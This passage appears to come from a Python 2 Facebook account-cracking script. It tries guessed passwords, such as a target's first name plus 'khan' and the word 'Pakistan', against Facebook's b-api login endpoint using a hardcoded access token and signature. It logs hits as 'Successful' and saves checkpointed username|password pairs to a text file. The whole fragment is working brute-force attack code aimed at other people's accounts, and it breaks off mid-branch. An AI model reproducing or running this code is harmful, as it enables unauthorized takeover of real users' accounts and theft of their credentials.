 											else:

												if 'www.facebook.com' in q["error_msg"]:

													print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass5	

													cek = open("out/checkpoint.txt", "a")

													cek.write(user+"|"+pass5+"\n")

													cek.close()

													cekpoint.append(user+pass5)

												else:

													pass6 = b['first_name'] + 'khan'

													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

													q = json.load(data)

													if 'access_token' in q:

														x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])

														z = json.loads(x.text)

														print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass6	

														oks.append(user+pass6)

													else:

														if 'www.facebook.com' in q["error_msg"]:

															print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass6	

															cek = open("out/checkpoint.txt", "a")

															cek.write(user+"|"+pass6+"\n")

															cek.close()

															cekpoint.append(user+pass6)

														else:

															pass7 = 'Pakistan'

															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

															q = json.load(data)

															if 'access_token' in q:

																x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
